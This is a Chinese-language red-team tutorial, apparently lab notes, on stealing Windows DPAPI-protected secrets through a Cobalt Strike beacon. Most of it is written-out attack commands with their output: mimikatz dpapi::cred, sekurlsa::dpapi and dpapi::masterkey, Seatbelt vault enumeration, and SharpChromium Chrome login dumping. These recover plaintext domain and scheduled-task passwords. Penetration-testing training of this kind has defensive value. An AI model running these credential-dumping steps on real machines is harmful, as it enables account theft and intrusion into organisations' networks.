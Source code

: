 # Data Protection API

Data Protection API是windows里面的一个组件，被windows管理器用来加解密各种用户凭据，比如RDP等。

谷歌浏览器也会用DPAPI保存网站的用户凭据。

# Credential Manager
credential manager blobs存储在```AppData```目錄

```
 beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```


 使用windows自带的vaultcmd命令可以列出
```
 beacon> run vaultcmd /listcreds:"Windows Credentials" /all
```

 或者mimikatz
```
 beacon> mimikatz vault::list
```

使用Seatbelt.exe,使用```WindowsVault```参数
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault
```

或者```WindowsCredentialFiles```
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles
```


要解密凭据，需要找到```master encryption key```

## 寻找GUID方法一

执行```dpapi::cred```,指定要解密的凭据路径
```
 beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

BLOB
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

guidMasterKey包含解密所需密钥的 GUID，上面是：```a23a1631-e2ca-4805-9f2f-fe8966fd8698```

```pbData```就是我们要解密的内容

也可以在这个目录```AppData\Roaming\Microsoft\Protect```上找到GUID
> The Master Key information is stored within the user's AppData\Roaming\Microsoft\Protect directory (where S-1-5-21-* is their SID).

```
 beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-DEV
 24b      fil     02/21/2021 11:49:40   Preferred
```

## 寻找GUID方法二
```
beacon> mimikatz !sekurlsa::dpapi

Authentication Id : 0 ; 1075454 (00000000:001068fe)
Session           : RemoteInteractive from 2
User Name         : bfarmer
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 9/6/2022 9:09:54 AM
SID               : S-1-5-21-569305411-121244042-2357301523-1104
   [00000000]
   * GUID      :  {bfc5090d-22fe-4058-8953-47f6882f549e}
   * Time      :  9/6/2022 11:27:44 AM
   * MasterKey :  8d15395a4bd40a61d5eb6e526c552f598a398d530ecc2f5387e07605eeab6e3b4ab440d85fc8c4368e0a7ee130761dc407a2c4d58fcd3bd3881fa4371f19c214
   * sha1(key) :  897f7bf129e6a898ff4e20e9789009d5385be1f3
```


知道了GUID，利用mimikatz获取masterkey，需要system或管理员权限
```
 beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```

上面的key就是解密需要的masterkey

解密凭据，得到明文密码：```Sup3rman```
```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : DEV\bfarmer
  CredentialBlob : Sup3rman
```

在上面的例子中，bfarmer是SRV-1的本地管理员，所以他们只是保存了自己的域凭证。值得注意的是，即使他们有本地凭证，甚至保存了一套不同的域凭证，解密的过程也是完全一样的。


# Google Chrome

Chrome的用户凭据也是存放在```AppData```目录
```
beacon> ls C:\Users\bfarmer\AppData\Local\Google\Chrome\User Data\Default

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 40kb     fil     02/25/2021 13:21:18   Login Data
```

可以使用[SharpChromium](https://github.com/djhohnstein/SharpChromium)破解里面的密码

```
beacon> execute-assembly C:\Tools\SharpChromium\bin\Debug\SharpChromium.exe logins

[*] Beginning Google Chrome extraction.

--- Chromium Credential (User: bfarmer) ---
URL      : 
Username : bfarmer
Password : Sup3rman

[*] Finished Google Chrome extraction.
[*] Done.
```

# Scheduled Task Credentials

计划任务可以保存凭据，以便它们可以在用户的​​上下文中运行，而无需登录。如果我们在机器上拥有本地管理员权限，我们可以用几乎相同的方式解密它们。Blob 保存在```C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\```

```
beacon> ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 10kb     fil     08/30/2022 12:42:24   DFBE70A7E5CC19A398EBF1B96859CE5D
 528b     fil     08/16/2022 14:55:28   F3190EBE0498B77B4A85ECBABCA19B6E
```


```dpapi::cred```可以告诉我们用于加密每个密钥的主密钥的 GUID
```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E

guidMasterKey      : {aaa23e6b-bba8-441d-923c-ec242d6690c3}
```

```sekurlsa::dpapi```转储缓存的密钥
```
beacon> mimikatz !sekurlsa::dpapi

   [00000000]
   * GUID      :  {aaa23e6b-bba8-441d-923c-ec242d6690c3}
   * Time      :  9/6/2022 12:14:38 PM
   * MasterKey :  10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9
   * sha1(key) :  cfbc842e78ee6713fa5dcb3c9c2d6c6d7c09f06c
```

解密
```
beacon> mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\F3190EBE0498B77B4A85ECBABCA19B6E /masterkey:10530dda04093232087d35345bfbb4b75db7382ed6db73806f86238f6c3527d830f67210199579f86b0c0f039cd9a55b16b4ac0a3f411edfacc593a541f8d0d9

  TargetName     : Domain:batch=TaskScheduler:Task:{86042B87-C8D0-40A5-BB58-14A45356E01C}
  UserName       : DEV\jking
  CredentialBlob : Qwerty123
```